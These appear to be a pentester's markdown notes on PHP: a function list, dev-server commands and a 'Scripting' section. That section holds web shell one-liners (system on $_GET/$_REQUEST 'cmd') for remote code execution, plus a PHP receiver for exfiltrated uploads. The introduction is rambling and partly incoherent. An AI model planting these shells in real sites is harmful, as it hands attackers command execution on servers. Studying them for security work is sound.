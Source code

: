 # Useful_PHP

[RTFM here is a documentation](https://www.php.net/) below is just useful php with description how its workings. One of the many Web-Hackronomicons of eye-brow-raising levels of secure language design with the insanity of multiple function calls capable of doing the exact same thing. Try to remember which are all of the vulnerable code in which server context anduser context when humans like trust and favourites, where is the person that shouts remember the Pwhpaarrr 1.69 version of with a similar function called that is allowed by some design loop hole. 

PHP 8.1 - Dev has a Backdoor


PHP webserver
```bash
php -S 0.0.0.0:8000
```

Execute file:
```bash
php file.php
```

## Useful Functions listing

Regex
[preg_match](https://www.php.net/manual/en/function.preg-match.php) - Perform a regular expression match

[is_resource](https://www.php.net/manual/en/function.is-resource.php) - Finds whether a variable is a resource

Arrays
[array_shift](https://www.php.net/manual/en/function.array-shift.php) - Shift an element off the beginning of array

Strings 
[explode](https://www.php.net/manual/en/function.explode.php) - Split a string by a string
[implode](https://www.php.net/manual/en/function.implode.php) - Join array elements with a string

Files
[finfo_open](https://www.php.net/manual/en/function.finfo-open.php) - Create a new finfo instance
[move_uploaded_file](https://www.php.net/manual/en/function.move-uploaded-file.php) - Moves an uploaded file to a new location
[file_put_contents](https://www.php.net/manual/en/function.file-put-contents.php)


## Scripting

Http `cmd` super global variable function for RCEs  
```php
<?php system($_GET['cmd']); ?>
```
`<?php` is the script tag, `system()`is the function call, `$_GET` is a reserved(in standard libvrary) [superglobal variable for HTTP GET](https://www.php.net/manual/en/reserved.variables.get.php), `['cmd']` ,`;` is line terminating character and finally `?>` is the closing script tag. 

```php
<?php system($_REQUEST['cmd']); ?>
```

phpinfo displayer
```PHP
<?php echo("Hello");phpinfo(); ?>
```

Base64 PHP decoder
```PHP
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

## Vulnerable Functions
[[Vulnerable-PHP-Functions]]

## Webserver Exfiltratation

Curl post data to the webserver to then login to exfiltrate
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Put your horrible PHP in html: [php.net](https://www.php.net/manual/en/language.basic-syntax.phpmode.php)

## References

[HTTP GET superglobal variable](https://www.php.net/manual/en/reserved.variables.get.php)
[php.net](https://www.php.net/) 
